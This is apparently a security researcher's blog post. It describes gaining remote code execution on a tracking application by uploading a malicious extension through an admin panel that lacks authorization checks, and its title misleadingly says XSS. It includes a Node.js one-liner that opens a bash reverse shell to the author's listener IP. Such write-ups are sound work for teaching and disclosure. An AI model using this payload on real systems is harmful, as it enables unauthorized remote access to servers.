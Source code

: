 ```yaml
---
layout: post
title:  "A Tale of Weird XSS into $100"
date:   2023-09-03 21:39:54 +0530
---
```


In this blog post, we’ll explore some intriguing scenarios where the add extension functionality in a particular subdomain can be exploited to enable a Remote Code Execution vulnerability. The application in question is a tracking system that can monitor study hours, walking distance, and, if using the Android version, application usage levels. By delving into the specifics of this potential vulnerability and its potential impact, we hope to provide valuable insights for both developers and security professionals.

![]({{ site.baseurl }}/assets/images/rce-1.png)

## Vulnerability in Tracking Application’s Admin Panel

A concerning vulnerability has been identified in the admin panel of the Tracking application. Specifically, when creating an extension, the application fails to implement proper authorization checks for all users. This means that regular users can upload extensions without restriction via the admin panel, potentially leading to remote code execution. Addressing this vulnerability by implementing proper authorization checks is critical to preventing unauthorized access and maintaining the security of the application. It highlights the importance of implementing robust access controls and security measures to protect against potential exploits and vulnerabilities.
Carrying Out the File Upload Attack

In order to successfully submit an extension upload, we must first create two required file types: a JavaScript file containing the extension’s code and a JSON file containing metadata like the extension’s name, version and description. By compiling these two files along with any other necessary files into a ZIP archive and uploading that, our extension is more likely to pass the initial review process due to being properly organized and containing all required files

Now, let’s write some javascript code that will send the reverse shell to our listening server

```js
require(‘child_process’).exec(‘bash -c “bash -i >& /dev/tcp/192.168.0.143/9999 0>&1"’) 
```

In the provided code snippet, we utilize the Node.js child process module. Node.js typically operates as a single-threaded, non-blocking system, which can struggle with increasing workloads. However, the child_process module solves this issue by allowing for the spawning of child processes. These child processes can communicate with each other using a built-in messaging system.

We make use of the exec() child process to execute system commands, specifically to establish a reverse TCP connection to our listener server. This allows remote access to the system and the potential exploitation of vulnerabilities. It is critical to note that such actions should only be performed with permission and in a controlled testing environment to avoid any negative impact on the system or its users.

To create an extension for the Tracking application, a metadata file is required. This file contains essential information about the extension, such as its UUID, name, and description. Here is a basic example that we can use:

```json
{
"name": "Test"
}
```

This metadata file is necessary for the proper functioning of the extension and must be included when uploading the extension to the application. Ensuring that all required files and information are included when creating and uploading extensions is critical to maintaining the security and integrity of the application.

It is important to note that the admin console of the Tracking application can be accessed by authenticated users through the subdirectory `/admin`. However, as there is no proper authentication mechanism in place for the admin panel, low-privileged users may also be able to access it. This highlights the significance of implementing appropriate security measures and access controls to prevent unauthorized access and maintain the security of the application.

![]({{ site.baseurl }}/assets/images/rce-2.png)

The Tracking application’s admin panel includes an option to upload extensions via the extension tab in the frontend. It is important to note that the upload functionality only accepts zip files and does not support any other file extensions. This restriction is intended to prevent potential security vulnerabilities that could arise from the upload of unsupported file types.

![]({{ site.baseurl }}/assets/images/rce-3.png)

Let’s get down to business! We’re going to start a listening server on our local machine, upload a malicious zip file to the target application through the upload extension functionality, and voila! We’ve got ourselves a reverse shell on our netcat listener.

![]({{ site.baseurl }}/assets/images/rce-4.png)

As a result, you can see we got a reverse shell from daemon server of the application
